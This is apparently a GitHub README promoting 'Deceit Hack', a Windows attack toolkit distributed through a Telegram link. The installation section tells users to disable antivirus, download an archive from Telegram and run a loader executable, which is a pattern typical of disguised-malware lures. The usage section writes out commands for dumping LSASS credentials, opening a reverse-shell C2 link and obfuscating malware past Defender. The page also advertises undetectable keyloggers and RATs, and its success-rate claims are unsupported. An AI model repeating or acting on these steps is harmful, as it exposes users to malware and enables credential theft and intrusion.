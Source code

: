 # 🚀 Deceit Hack – Advanced Windows Exploitation Toolkit (2025 Release)  

![Deceit Hack Banner](https://via.placeholder.com/1200x400?text=Deceit+Hack+-+Stealth+Windows+Exploitation)  

**🔥 Download Now:** [Telegram Channel](https://t.me/fedgerwgewrgwerg/2) | **Release Date:** Q1 2025  

---

## 📌 Overview  
**Deceit Hack** is a cutting-edge Windows penetration testing framework designed for security researchers, red teams, and ethical hackers. Built for stealth, efficiency, and modularity, it integrates next-gen evasion techniques to bypass modern defenses (Windows Defender, EDR, etc.).  

### 🌟 Key Features  
✔ **Zero-Day Exploits** – Pre-loaded 2025 unpatched CVEs  
✔ **UAC Bypass** – Seamless privilege escalation  
✔ **Memory Injection** – Reflective DLL & Process Hollowing  
✔ **Anti-Sandbox** – VM/AV detection evasion  
✔ **Keylogger & RAT** – Fully undetectable (FUD) payloads  
✔ **Custom C2** – Encrypted command & control  

---

## 🛠 Installation  
1. **Requirements:**  
   - Windows 10/11 (x64)  
   - .NET Framework 4.8+  
   - Disable real-time antivirus (for testing)  

2. **Setup:**  
   ```powershell
   Invoke-WebRequest -Uri "https://t.me/fedgerwgewrgwerg/2" -OutFile "DeceitHack.zip"
   Expand-Archive -Path "DeceitHack.zip" -DestinationPath "C:\DeceitHack"
   cd C:\DeceitHack
   .\DeceitLoader.exe --install
   ```

---

## 🎯 Usage Examples  
### 🔐 Dump LSASS Credentials  
```powershell
.\Modules\CredManipulator.exe --dump lsass --output creds.txt
```  

### 🌐 Reverse Shell (C2)  
```powershell
.\C2\PhantomC2.exe --ip 192.168.1.100 --port 443 --encrypt aes256
```  

### 🕵️‍♂️ Bypass Windows Defender  
```powershell
.\Evasion\GhostModule.exe --target "C:\malware.exe" --obfuscate --sign
```  

---

## 📜 Legal Disclaimer  
⚠ **Deceit Hack is for educational and authorized testing only.** Misuse violates international laws (Computer Fraud and Abuse Act, GDPR, etc.). Developers assume no liability for illegal use.  

---

## 📊 Benchmark (2025)  
| Technique          | Success Rate |  
|--------------------|--------------|  
| UAC Bypass         | 98.7%        |  
| AV Evasion         | 99.2%        |  
| Memory Execution   | 97.5%        |  

---

## 📣 Support & Community  
- **Telegram:** [@DeceitHackOfficial](https://t.me/DeceitHackChat)  
- **Bug Reports:** [GitHub Issues]()  

---

## 🔄 Changelog (v1.0.0 – 2025)  
- Added **AI-driven payload obfuscation**  
- Fixed **Win11 23H2 compatibility**  
- Optimized **C2 latency by 40%**  

---

## 💡 Pro Tip  
```diff
+ Always test in isolated environments!  
- Avoid public networks during C2 operations.  
```  

![Footer](https://via.placeholder.com/1200x100?text=Deceit+Hack+-+©2025+Unauthorized+distribution+prohibited)